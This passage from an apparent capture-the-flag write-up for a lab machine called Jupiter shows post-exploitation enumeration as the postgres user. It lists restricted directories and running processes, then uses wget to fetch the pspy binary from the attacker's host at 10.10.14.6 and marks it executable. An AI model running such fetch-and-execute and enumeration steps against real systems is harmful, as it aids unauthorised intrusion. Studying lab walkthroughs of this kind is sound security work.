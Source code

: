 There’s an interesting directory in `/opt`, but postgres can’t access it, as it’s owned by jovian and in the science group:

```

postgres@jupiter:/$ ls -l /opt/
total 4
drwxrwx--- 4 jovian science 4096 May  4 18:59 solar-flares
postgres@jupiter:/$ ls opt/solar-flares/
ls: cannot open directory 'opt/solar-flares/': Permission denied

```

There’s also a `network-simulation.yml` and `shadow.data` folder in `/dev/shm`:

```

postgres@jupiter:/dev/shm$ ls                       
network-simulation.yml  PostgreSQL.2103401574  shadow.data

```

I’ll come back to this shortly.

#### Processes

The output of `ps auxww` has one interesting line:

```

jovian      1163  0.0  1.6  81332 66616 ?        S    19:24   0:00 /usr/bin/python3 /usr/local/bin/jupyter-notebook --no-browser /opt/solar-flares/flares.ipynb

```

A Jupyter notebook running as jovian, with notebooks in the folder that I can’t access yet. I’ll have to come back to this.

#### pspy

To further look at the processes, I’ll use [pspy](https://github.com/DominicBreuker/pspy) to look for any crons. I’ll serve it with a Python webserver on my host, and upload it with `wget`, then setting it as executable:

```

postgres@jupiter:/dev/shm$ wget 10.10.14.6/pspy64
--2023-08-31 20:35:55--  http://10.10.14.6/pspy64
Connecting to 10.10.14.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64              100%[===================>]   2.96M  2.10MB/s    in 1.4s

2023-08-31 20:35:57 (2.10 MB/s) - ‘pspy64’ saved [3104768/3104768]
                                                                    
postgres@jupiter:/dev/shm$ chmod +x pspy64

```
